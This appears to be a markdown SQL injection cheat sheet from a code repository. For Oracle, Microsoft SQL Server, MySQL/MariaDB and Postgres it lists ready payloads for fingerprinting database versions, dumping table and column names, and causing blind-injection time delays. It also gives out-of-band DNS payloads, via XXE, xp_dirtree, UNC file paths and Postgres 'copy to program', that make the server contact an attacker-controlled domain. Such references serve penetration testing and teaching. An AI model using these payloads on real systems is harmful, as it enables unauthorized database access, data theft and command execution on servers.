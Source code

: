# Sql Injection

## Database Name / Version
- Oracle - `SELECT banner FROM v$version` `SELECT version FROM v$instance`
- Microsoft / MySql / MariaDB - `SELECT @@version`
- Postgres - `SELECT version()`

## Dumping Table / Column Names
- Oracle - `SELECT * FROM all_tables` `SELECT * FROM all_tab_columns WHERE table_name = <TABLE>`
- Microsoft / Postgres / MySql / MariaDB - `SELECT * FROM information_schema.tables` `SELECT * FROM information_schema.columns WHERE table_name = <TABLE>`

## Time Delays (Blind Injection)
- Oracle - `dbms_pipe.receive_message(('a'),10)`
- Microsoft - `WAITFOR DELAY '0:0:10'`
- Postgres - `SELECT pg_sleep(10)`
- MySql / MariaDB - `SELECT sleep(10)`

## DNS Lookup (Blind Injection)
- Oracle (v11.2.0.3 - v12.1.0.2) - `SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "<DOMAIN>/"> %remote;]>'),'/l') FROM dual`
- Oracle (Elevated privileges) - `SELECT UTL_INADDR.get_host_address('<DOMAIN>')`
- Microsoft - `exec master..xp_dirtree '//<DOMAIN>/a'`
- Postgres - `copy (SELECT '') to program 'nslookup <DOMAIN>'`
- MySql / MariaDB (Windows only) - `LOAD_FILE('\\\\<DOMAIN>\\a')` `SELECT ... INTO OUTFILE '\\\\<DOMAIN>\a'`


## MongoDB
** Safe from traditional attacks, from building a BSON object, instead of assembling a query from string **
